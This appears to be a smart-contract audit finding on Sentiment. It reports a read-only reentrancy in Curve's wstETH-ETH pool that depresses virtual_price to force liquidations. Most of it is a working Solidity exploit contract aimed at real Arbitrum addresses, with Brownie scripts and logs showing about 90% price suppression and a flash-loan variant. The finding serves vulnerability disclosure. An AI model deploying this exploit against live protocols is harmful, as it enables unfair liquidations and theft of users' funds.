 GalloDaSballo

high

# H-01 wstETH-ETH Curve LP Token Price can be manipulated to Cause Unexpected Liquidations

## Summary

The wsteETH-ETH LP token is priced via it's [`virtual_price`](https://github.com/sherlock-audit/2022-12-sentiment/blob/main/oracle/src/curve/StableCurveEthOracle.sol#L72)

Through what [Chainalysis called View only Reentrancy](https://chainsecurity.com/heartbreaks-curve-lp-oracles/), we can reduce the value of `virtual_price`, causing the RiskEngine to trigger a liquidation event.

## Vulnerability Detail

Per some testing I made, we know that the Debt for such an account will be denominated in WETH, this price cannot be tampered.

However, the price of the ETH-wstETH LP Token can be manipulated by calling the RiskEngine while reEntering from the `POOL.remove_liquidity` function.

This is possible because the function will send ETH first, before updating it's internal wstETH balances.

To test the maximum impact I simulated borrowing an infinite amount of WETH (by impersonating the GMX Vault).

If that amount of ETH were available on Arbitrum, we can achieve over 10x in price suppression, effectively making any "normal" account instantly liquidatable.

The estimated cost of the attack is 60 BPS of the total ETH used (due to price impact)

## Impact

Because of the price manipulation, we can trigger unfair liquidations to our advantage, because the cost of manipulation is in the 50BPS range, any time a big enough deposit is made, it becomes profitable to force liquidate them.

In the theoretical scenario shown below (borrowing from GMX Vault), I can effectively liquidate any account using the token.
A more pragmatic scenario is listed below as well

## Code Snippet

Below a simulation showing how to achieve the Virtual Price Manipulation, the last piece of the attack would be to call liquidate on an account while re-entering

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.10;


import {IERC20} from "@oz/token/ERC20/IERC20.sol";
import {SafeERC20} from "@oz/token/ERC20/utils/SafeERC20.sol";
import {ReentrancyGuard} from "@oz/security/ReentrancyGuard.sol";

interface IAccount {
  function getAssets() external view returns (address[] memory);
  function getBorrows() external view returns (address[] memory);
}
interface IRiskEngine {
  function getBalance(address account) external view returns (uint);
  function getBorrows(address account) external view returns (uint);
}

interface ISentimentCore {
  function riskEngine() external view returns (address);
}

interface ICurvePool {
  function add_liquidity(uint256[2] memory amounts, uint256 min_mint_amount) external payable returns (uint256);
  function remove_liquidity(uint256 amount, uint256[2] memory min_amounts) external returns (uint256);
  function get_virtual_price() external view returns (uint256);
}

interface ILP {
  function balanceOf(address) external view returns (uint256);
}

contract VirtualPriceManip {
  ICurvePool POOL = ICurvePool(0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80);
  ILP LP = ILP(0xDbcD16e622c95AcB2650b38eC799f76BFC557a0b);
  ILP WSTETH = ILP(0x5979D7b546E38E414F7E9822514be443A4800529);
  // Get WETH

  // Check Virtual Price

  // Deposit into Curve

  // Check Virtual Price

  // Withdraw, and ReEnter

  // Check Virtual Price

  // End, Check Virtual Price

  event Debug(string name, uint256 value);

  function fakeSentimentPrice() internal returns (uint256){
    uint256 FAKE_WETH_PRICE = 1e18;
    return FAKE_WETH_PRICE * POOL.get_virtual_price() / 1e18;
  }

  function startAttack() external payable {
    uint256 amt = msg.value;

    // 1. Check Virtual Price
    emit Debug("Virtual Price 1", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 1", fakeSentimentPrice());

    // 2. Curve deposit
    uint256[2] memory dep = [amt, 0];
    POOL.add_liquidity{value: amt}(dep, 1);

    // 3. Check Virtual Price
    emit Debug("Virtual Price 3", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 3", fakeSentimentPrice());

    // 4. Curve Withdraw
    // TODO: This is where profit maximization math will be necessary
    uint256[2] memory dep2 = [uint256(0), uint256(0)];
    POOL.remove_liquidity(LP.balanceOf(address(this)), dep2);

    // 6. Check Virtual Price
    emit Debug("Virtual Price 6", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 6", fakeSentimentPrice());

    // TODO: Check loss in ETH and compare vs wstETH we now have
    // Loss is there, but should be marginal / imbalance + fees
    emit Debug("Msg.value", msg.value);
    emit Debug("This Balance", address(this).balance);
    emit Debug("Delta", msg.value - address(this).balance);

    emit Debug("WstEthBalance", WSTETH.balanceOf(address(this)));
  }

  receive() external payable {
    // 5. Reenter here

    // Check Virtual Price
    emit Debug("Virtual Price 5", POOL.get_virtual_price());
    emit Debug("fakeSentimentPrice 5", fakeSentimentPrice());
  }
}
```

Here the Brownie Console for the maximum theoretical attack

```python

weth = Contract.from_explorer("0x82aF49447D8a07e3bd95BD0d56f35241523fBab1")
whale = accounts.at("0x489ee077994b6658eafa855c308275ead8097c4a", force=True)
 
weth.transfer(a[0], weth.balanceOf(whale), {"from": whale})
weth.withdraw(weth.balanceOf(a[0]), {"from": a[0]})
c = VirtualPriceManip.deploy({"from": a[0]})
c.startAttack({"from": a[0], "value": a[0].balance() * 99 / 100})
 
Fetching source of 0x82aF49447D8a07e3bd95BD0d56f35241523fBab1 from api.arbiscan.io...
Fetching source of 0x8b194bEae1d3e0788A1a35173978001ACDFba668 from api.arbiscan.io...
Transaction sent: 0x69a4ee6fba72894d2e6c7ba556a6df8bb2159981e09b7dd947283368628baefa
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  TransparentUpgradeableProxy.transfer confirmed   Block: 42567825   Gas used: 39080 (0.20%)

Transaction sent: 0xfecb0db00b3db0b7b6cf22bc1adc92d16169060ead3a9c13f88a19b0c57fd666
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 0
  TransparentUpgradeableProxy.withdraw confirmed   Block: 42567826   Gas used: 30937 (0.15%)

Transaction sent: 0x198d4b73e7def112903606efa77c0add9910e7f3e86186e310a0adbfec0adebc
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  VirtualPriceManip.constructor confirmed   Block: 42567827   Gas used: 647070 (3.24%)
  VirtualPriceManip deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6

Transaction sent: 0x101e212ca64ed3fc6595c15c30706a8075a010ed866ba5b230cb494f9ac20c5c
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 2
  VirtualPriceManip.startAttack confirmed   Block: 42567828   Gas used: 354622 (1.77%)

>>> history[-1].events
{'Debug': [OrderedDict([('name', 'Virtual Price 1'), ('value', 1005466150529603227)]), OrderedDict([('name', 'fakeSentimentPrice 1'), ('value', 1005466150529603227)]), OrderedDict([('name', 'Virtual Price 3'), ('value', 1005678057072654996)]), OrderedDict([('name', 'fakeSentimentPrice 3'), ('value', 1005678057072654996)]), OrderedDict([('name', 'Virtual Price 5'), ('value', 93457469619424556)]), OrderedDict([('name', 'fakeSentimentPrice 5'), ('value', 93457469619424556)]), OrderedDict([('name', 'Virtual Price 6'), ('value', 1005678057072654996)]), OrderedDict([('name', 'fakeSentimentPrice 6'), ('value', 1005678057072654996)]), OrderedDict([('name', 'Msg.value'), ('value', 86826027227418610000000)]), OrderedDict([('name', 'This Balance'), ('value', 83541864626282883099978)]), OrderedDict([('name', 'Delta'), ('value', 3284162601135726900022)]), OrderedDict([('name', 'WstEthBalance'), ('value', 2736183720644597163208)])], 'Transfer': [OrderedDict([('_from', '0x0000000000000000000000000000000000000000'), ('_to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_value', 81436145961234587181162)]), OrderedDict([('from', '0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80'), ('to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('value', 2736183720644597163208)]), OrderedDict([('_from', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_to', '0x0000000000000000000000000000000000000000'), ('_value', 81436145961234587181162)])], 'AddLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (86826027227418610000000, 0)), ('fees', (11884971933620921875, 9942362504203593908)), ('invariant', 86698045640581035174753), ('token_supply', 86190407433150506590178)])], 'RemoveLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (83541864626282883099978, 2736183720644597163208)), ('fees', (0, 0)), ('token_supply', 4754261471915919409016)])]}


>>> 93457469619424556 / 1005466150529603227 * 100
9.294939423887941

>>> 93457469619424556 / 1005466150529603227 * 100
9.294939423887941
>>> eth_to_convert = 2736183720644597163208 * 1.08
>>> 3284162601135726900022 - eth_to_convert
3.290841828395613e+20
>>> 3.290841828395613e+20 / 86826027227418610000000 * 100
## 37 BPS to perform the attack, remaining costs would bring it up to around 50 BPS (swap wstETH, cost of liquidations, etc..)
0.3790155939964975

## See `fakeSentiment5 vs fakeSentimen1`
>>> 93457469619424556 / 1005466150529603227 * 100
9.294939423887941

"""
Price is 9% of it's original value, we achieve a 10X price depreciation, allowing us to liquidate any user that has taken minimal leverage
"""

```

## Tool used

Manual Review

## Recommendation

At this time, I would recommend NOT to use the ETH-stETH LP Token as the price is manipulatable.
The only rational way I could expect this to be solved is for Chainlink to offer virtual_price oracles, or the development of a TWAP for the virtual_price.


## Additional Considerations

The theoretical maximum attack allows to effectively liquidate any account that uses the stETH-WETH Pool.

In practice, via an AAVE Flashloan I'm able to borrow up to 14.5k WETH, which allows to move the price by over 11%, meaning that some accounts, that are levered at around 90% could be unfairly liquidated.

```python
>>> history[-1].events
{'Debug': [OrderedDict([('name', 'Virtual Price 1'), ('value', 1005466094471744332)]), OrderedDict([('name', 'fakeSentimentPrice 1'), ('value', 1005466094471744332)]), OrderedDict([('name', 'Virtual Price 3'), ('value', 1005497298777214105)]), OrderedDict([('name', 'fakeSentimentPrice 3'), ('value', 1005497298777214105)]), OrderedDict([('name', 'Virtual Price 5'), ('value', 890315892210177531)]), OrderedDict([('name', 'fakeSentimentPrice 5'), ('value', 890315892210177531)]), OrderedDict([('name', 'Virtual Price 6'), ('value', 1005497298777214105)]), OrderedDict([('name', 'fakeSentimentPrice 6'), ('value', 1005497298777214105)]), OrderedDict([('name', 'Msg.value'), ('value', 1452330000000000000000)]), OrderedDict([('name', 'This Balance'), ('value', 713314090131700921245)]), OrderedDict([('name', 'Delta'), ('value', 739015909868299078755)]), OrderedDict([('name', 'WstEthBalance'), ('value', 677574531693017948098)])], 'Transfer': [OrderedDict([('_from', '0x0000000000000000000000000000000000000000'), ('_to', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('_value', 1449753409949781400798)]), OrderedDict([('from', '0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80'), ('to', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('value', 677574531693017948098)]), OrderedDict([('_from', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('_to', '0x0000000000000000000000000000000000000000'), ('_value', 1449753409949781400798)])], 'AddLiquidity': [OrderedDict([('provider', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('token_amounts', (1452330000000000000000, 0)), ('fees', (192842135570862938, 176890872766115807)), ('invariant', 6238313797265075968081), ('token_supply', 6204014881865700809814)])], 'RemoveLiquidity': [OrderedDict([('provider', '0xE7eD6747FaC5360f88a2EFC03E00d25789F69291'), ('token_amounts', (713314090131700921245, 677574531693017948098)), ('fees', (0, 0)), ('token_supply', 4754261471915919409016)])]}
>>> 890315892210177531 / 1005466094471744332
## Around 11.2% Price Manipulation with 14.5k ETH used
0.8854757978467043
```
